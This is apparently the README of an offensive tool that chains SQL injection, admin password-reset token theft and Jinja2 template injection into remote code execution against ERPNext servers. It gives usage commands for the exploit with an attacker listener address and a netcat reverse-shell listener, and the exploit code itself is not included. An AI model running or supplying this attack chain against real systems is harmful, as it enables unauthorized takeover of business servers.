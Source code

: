 # ERPNext Vulnerability Exploitation Tool

This tool exploits multiple vulnerabilities in ERPNext systems to gain unauthorized access and remote code execution (RCE).

## Overview

The script targets vulnerable ERPNext instances by exploiting a series of vulnerabilities:

1. **SQL Injection**: Extracts administrator email through SQL injection vulnerability
2. **Password Reset**: Initiates and captures password reset tokens
3. **Authentication**: Resets administrator password and authenticates as admin
4. **Remote Code Execution**: Exploits Server-Side Template Injection (SSTI) to gain shell access

## Features

- SQL injection to extract sensitive information
- Password reset token extraction 
- Automated authentication
- Remote code execution via SSTI vulnerability
- Reverse shell generation
- Detailed error reporting and progress indicators

## Prerequisites

- Python 3.6+
- Required Python packages:
  - requests
  - argparse
  - re
  - json

## Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/erpnext-exploit.git
cd erpnext-exploit

# Install requirements
pip install requests
```

## Usage

### Basic Usage (Full Exploitation Chain)

```bash
python exploit.py --url http://target-erpnext:8000/ --lhost your-ip-address --lport 4444
```

### RCE-Only Mode

If you already have authentication or want to skip the initial exploitation steps:

```bash
python exploit.py --url http://target-erpnext:8000/ --lhost your-ip-address --lport 4444 --rce-only
```

### Authentication-Only Mode

To gain admin access without attempting RCE:

```bash
python exploit.py --url http://target-erpnext:8000/
```

### Setting Up a Listener

Before running the exploit with RCE, set up a listener to receive the reverse shell:

```bash
nc -lvnp 4444
```

## Command Line Arguments

- `--url`: Target ERPNext URL (required)
- `--lhost`: Listener IP address for reverse shell
- `--lport`: Listener port for reverse shell
- `--rce-only`: Skip authentication and only attempt RCE

## Technical Details

### Vulnerability Chain

1. **SQL Injection**: The tool exploits an SQL injection vulnerability in the web search functionality to extract the administrator's email address.

2. **Password Reset Capture**: It initiates a password reset for the administrator account and uses another SQL injection to extract the reset token.

3. **Authentication**: Using the extracted token, it resets the password and authenticates as the administrator.

4. **SSTI Exploitation**: Once authenticated, it exploits a Server-Side Template Injection vulnerability in the Email Template functionality to execute arbitrary code.

5. **Reverse Shell**: Finally, it creates a reverse shell connection back to the attacker's system.

### RCE Methodology

The RCE component exploits Jinja2 template injection to:
- Enumerate Python class hierarchy
- Identify the position of `subprocess.Popen` in the `__subclasses__` list
- Execute arbitrary shell commands via the `subprocess.Popen` class
- Establish a reverse shell connection

## Troubleshooting

### Common Issues

1. **Connection Issues**: 
   - Verify the target URL is accessible
   - Check for any firewalls blocking outbound connections

2. **Authentication Failures**: 
   - Ensure the target is actually vulnerable
   - Verify the SQL injection is working properly

3. **RCE Issues**:
   - Confirm the system has netcat installed
   - Check if outbound connections are allowed from the target
   - Try alternative reverse shell payloads

### Debugging

Add the `-v` or `--verbose` flag for more detailed output:

```bash
python exploit.py --url http://target:8000/ --lhost your-ip --lport 4444 --verbose
```

## Disclaimer

This tool is provided for educational and security research purposes only. Use only against systems you have permission to test. Unauthorized use is illegal and unethical.

## License

This project is licensed under the MIT License - see the LICENSE file for details.